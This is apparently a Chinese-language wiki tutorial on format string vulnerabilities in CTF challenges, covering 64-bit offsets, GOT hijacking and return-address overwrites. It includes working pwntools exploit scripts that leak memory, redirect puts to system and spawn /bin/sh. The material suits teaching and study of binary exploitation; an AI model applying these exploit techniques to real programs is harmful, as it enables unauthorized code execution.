




# 格式化字符串漏洞例子

## 简介

本文将介绍多个 CTF 题目中格式化字符串漏洞的实际应用案例，包括 64 位程序利用、GOT 表劫持、返回地址劫持等技术。

## 格式化字符串漏洞案例概览

### 各种利用案例对比图



### GOT 表劫持完整流程图



### 参数偏移确定流程图



### 格式化字符串漏洞案例思维导图



## 基础知识

在阅读本文之前，建议先了解：
- [[格式化字符串漏洞原理介绍]]
- [[格式化字符串漏洞利用]]

## 64 位程序格式化字符串漏洞

### 原理

64 位程序的利用方式与 32 位类似，但有一个重要区别：64 位函数的前 6 个参数存储在寄存器中。即使我们没有向寄存器中放入数据，程序仍然会按照格式化字符串对其进行解析。

### 例子：UIUCTF 2017 - GoodLuck

#### 程序保护检查

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

程序开启了 NX 保护和部分 RELRO 保护。

#### 漏洞分析

程序漏洞很明显，存在如下代码：

```c
printf(format);
```

其中 `format` 是用户可控的输入。

#### 确定偏移

在 `printf` 处下断点，观察栈布局。对于 64 位程序：
- 前 6 个参数在寄存器中
- 第 7 个及以后的参数在栈上

可以使用如下方法确定偏移：
1. 使用 GDB 调试观察栈布局
2. 使用 pwntools 的 `fmtarg` 功能

#### 利用程序

```python
from pwn import *
from LibcSearcher import *

goodluck = ELF('./goodluck')
if args['REMOTE']:
    sh = remote('pwn.sniperoj.cn', 30017)
else:
    sh = process('./goodluck')

payload = "%9$s"
print(payload)
sh.sendline(payload)
print(sh.recv())
sh.interactive()
```

通过直接泄露 flag 所在地址的内容即可获取 flag。

## GOT 表劫持

### 原理

在 C 程序中，libc 函数通过 GOT（Global Offset Table）表进行跳转。在没有开启 Full RELRO 的情况下，GOT 表是可写的。我们可以修改某个 libc 函数的 GOT 表项为另一个函数的地址，从而控制程序执行流程。

例如，将 `printf` 的 GOT 表项修改为 `system` 的地址，这样当程序调用 `printf` 时实际上执行的是 `system` 函数。

### 利用步骤

1. 确定目标函数的 GOT 表地址
2. 泄露某个 libc 函数的地址，确定 libc 版本和基址
3. 计算目标函数（如 `system`）的地址
4. 将目标函数的 GOT 表项修改为 `system` 的地址
5. 触发调用，传入 `/bin/sh` 参数

### 例子：2016 CCTF - pwn3

#### 程序保护检查

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

程序开启了 NX 保护。

#### 漏洞分析

程序是一个简单的 FTP 服务，在 `get_file` 函数中存在格式化字符串漏洞：

```c
return printf(&dest);
```

#### 利用思路

1. 绕过密码验证
2. 确定格式化字符串参数偏移
3. 利用 `puts` 的 GOT 表泄露 `puts` 函数地址
4. 使用 LibcSearcher 确定 libc 版本和 `system` 地址
5. 修改 `puts` 的 GOT 表为 `system` 地址
6. 传入 `/bin/sh` 触发 `system` 调用

#### 利用程序

```python
from pwn import *
from LibcSearcher import LibcSearcher

context.log_level = 'debug'
pwn3 = ELF('./pwn3')

if args['REMOTE']:
    sh = remote('111', 111)
else:
    sh = process('./pwn3')

def get(name):
    sh.sendline('get')
    sh.recvuntil('enter the file name you want to get:')
    sh.sendline(name)
    data = sh.recv()
    return data

def put(name, content):
    sh.sendline('put')
    sh.recvuntil('please enter the name of the file you want to upload:')
    sh.sendline(name)
    sh.recvuntil('then, enter the content:')
    sh.sendline(content)

def show_dir():
    sh.sendline('dir')

# 密码绕过
tmp = 'sysbdmin'
name = ""
for i in tmp:
    name += chr(ord(i) - 1)

# 发送密码
sh.recvuntil('Name (ftp.hacker.server:Rainism):')
sh.sendline(name)

# 获取 puts 地址
puts_got = pwn3.got['puts']
log.success('puts got: ' + hex(puts_got))
put('1111', '%8$s' + p32(puts_got))
puts_addr = u32(get('1111')[:4])

# 获取 system 地址
libc = LibcSearcher("puts", puts_addr)
system_offset = libc.dump('system')
puts_offset = libc.dump('puts')
system_addr = puts_addr - puts_offset + system_offset
log.success('system addr: ' + hex(system_addr))

# 修改 puts@got 为 system 地址
payload = fmtstr_payload(7, {puts_got: system_addr})
put('/bin/sh;', payload)

# 触发 system("/bin/sh")
sh.recvuntil('ftp>')
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('/bin/sh;')

show_dir()
sh.interactive()
```

## 返回地址劫持

### 原理

当程序开启了 Full RELRO 时，我们无法修改 GOT 表。此时可以考虑直接修改栈上的返回地址，将其指向我们想要执行的代码（如 `system("/bin/sh")`）。

### 利用步骤

1. 确定格式化字符串参数偏移
2. 泄露栈上的 rbp 值
3. 计算返回地址相对于 rbp 的偏移
4. 确定返回地址的实际地址
5. 使用格式化字符串的写功能修改返回地址

### 例子：三个白帽 - pwnme_k0

#### 程序保护检查

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

程序开启了 NX 保护和 Full RELRO 保护，无法修改 GOT 表。

#### 漏洞分析

程序是一个简单的账户注册系统，在查看账户信息时存在格式化字符串漏洞。

程序中还存在一个直接调用 `system("/bin/sh")` 的函数，地址为 `0x4008a6`。

#### 利用思路

1. 确定格式化字符串参数偏移
2. 泄露 rbp 值
3. 计算返回地址的地址
4. 将返回地址修改为 `system("/bin/sh")` 的地址
5. 触发函数返回，获得 shell

#### 利用程序

```python
from pwn import *

context.log_level = "debug"
context.arch = "amd64"

sh = process("./pwnme_k0")
binary = ELF("./pwnme_k0")

# 第一步：泄露 rbp
sh.recv()
sh.writeline("1" * 8)
sh.recv()
sh.writeline("%6$p")
sh.recv()
sh.writeline("1")
sh.recvuntil("0x")
rbp = int(sh.recvline().strip(), 16)
ret_addr = rbp - 0x38
success("ret_addr: " + hex(ret_addr))

# 第二步：修改返回地址
sh.recv()
sh.writeline("2")
sh.recv()
sh.sendline(p64(ret_addr))
sh.recv()
sh.writeline("%2218d%8$hn")

# 触发返回
sh.recv()
sh.writeline("1")
sh.recv()
sh.interactive()
```

## 堆上的格式化字符串漏洞

### 原理

当格式化字符串存储在堆上时，会增加确定偏移的难度。但通常格式化字符串会被复制到栈上，所以仍然可以利用。

### 特点

1. 需要更仔细地确定参数偏移
2. 可能需要结合其他技术（如栈迁移）
3. 可以考虑控制堆上的数据

### 例子：2015 CSAW - contacts

#### 程序保护检查

```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

程序不仅开启了 NX 保护还开启了 Canary 保护。

#### 漏洞分析

程序是一个联系人管理系统，在打印联系人信息时存在格式化字符串漏洞：

```c
printf(format);
```

其中 `format` 指向堆上的数据。

#### 利用思路

由于程序有 Canary 保护，直接栈溢出不可行。GOT 劫持虽然可能，但需要谨慎选择目标函数。

可以考虑使用栈迁移技术，将程序控制流转移到堆上去执行。

## 相关概念

- [[格式化字符串漏洞原理介绍]]
- [[格式化字符串漏洞利用]]
- [[基本ROP]]
- [[控制程序执行流]]
- [[Canary 保护机制]]
- [[获取地址]]
